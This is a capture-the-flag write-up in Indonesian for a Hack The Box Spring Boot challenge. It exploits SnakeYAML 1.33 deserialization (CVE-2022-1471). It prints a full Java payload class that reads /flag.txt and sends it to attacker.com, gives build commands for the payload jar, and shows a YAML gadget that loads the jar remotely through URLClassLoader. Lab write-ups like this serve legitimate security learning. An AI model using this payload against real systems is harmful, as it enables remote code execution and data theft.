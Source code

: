 #web #easy #htb #writeup_twang #springboot


# Persiapan
Untuk mengerjakan CTF ini, kami menggunakan tool:
- Ngrok
- Python HTTP Server

# Steps
Website kali ini dibangun menggunakan bahasa Java. Dan berdasarkan isi dari `pom.xml`, kita dapat memastikan bahwa website menggunakan snake_yaml versi 1.33.
```sml
<dependency>
            <groupId>org.yaml</groupId>
            <artifactId>snakeyaml</artifactId>
            <version>1.33</version>
        </dependency>
	</dependencies>
```

Versi `snake_yaml` tersebut memiliki celah Arbitrary Code Execution (CVE - 2022 - 1471). Referensi celah dan eksploitasi dapat ditemukan pada
- https://security.snyk.io/package/maven/org.yaml:snakeyaml/1.33 
- https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/
- https://github.com/artsploit/yaml-payload. 

Exploit ini dibuat bertujuan untuk mengambil konten file `/flag.txt` dan mengirimkan isi konten tersebut menuju `http://attacker.com/`.
```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.charset.StandardCharsets;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.net.HttpURLConnection;
import java.net.URL;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        Path filePath = Path.of("/flag.txt");
        try {
            String content = Files.readString(filePath, StandardCharsets.UTF_8);
            String urlString = "http://attacker.com/"+content;
            URL url = new URL(urlString);
            HttpURLConnection connection = (HttpURLConnection) url.openConnection();
            connection.setRequestMethod("GET");
            int responseCode = connection.getResponseCode();
            System.out.println("Response Code: " + responseCode);

            // Read the response
            BufferedReader reader = new BufferedReader(new InputStreamReader(connection.getInputStream()));
            String line;
            StringBuilder response = new StringBuilder();
            while ((line = reader.readLine()) != null) {
                response.append(line);
            }
            reader.close();

            // Print the response
            System.out.println("Response:\n" + response.toString());

            // Disconnect the connection
            connection.disconnect();
            
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}

```

Kemudian, compile file Java tersebut dan archive dengan menggunakan `jar`.
```sh
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

Selanjutnya, construct YAML untuk melakukan `ClassLoader` menuju JAR yang telah dibuat.
```yaml
snake_exploit: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["https://attacker.com/yaml-payload.jar"]]]]
```
